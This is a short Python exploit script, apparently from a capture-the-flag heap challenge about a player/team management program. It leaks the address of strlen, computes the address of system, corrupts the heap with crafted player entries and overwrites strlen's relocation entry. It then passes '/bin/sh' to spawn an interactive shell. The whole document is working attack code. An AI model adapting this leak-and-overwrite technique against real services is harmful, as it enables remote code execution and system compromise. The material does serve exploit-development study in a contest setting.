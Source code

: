 ```python

# Overwrite first entry obj.players
edit_name(ADDR_RELOC_STRLEN)

# Get address of strlen
r.clean(1)
r.sendline("6") # Show team
r.recvuntil("A/D/S/P:")
leak1 = int(r.recvuntil(",")[:-1])
leak2 = int(r.recvuntil(",")[:-1])
if leak1 < 0:
    leak1 = ctypes.c_uint32(leak1).value

# Compute addr of system
addr_strlen = leak2*0x100000000 + leak1
addr_system = addr_strlen - 0x46390 

# Craft second player
add_player('A' * (0x18-1)) 
add_player('A' * 0xaa)
select_player(1)
rm_player(1)
rm_player(2)
add_player('A'*0x10 + ADDR_RELOC_STRLEN[:-1])

# Overwrite the reloc of strlen
edit_name(pack(addr_system))

# Call the function system
edit_name("/bin/sh")
r.clean(1)

# Enjoy
r.interactive()
```

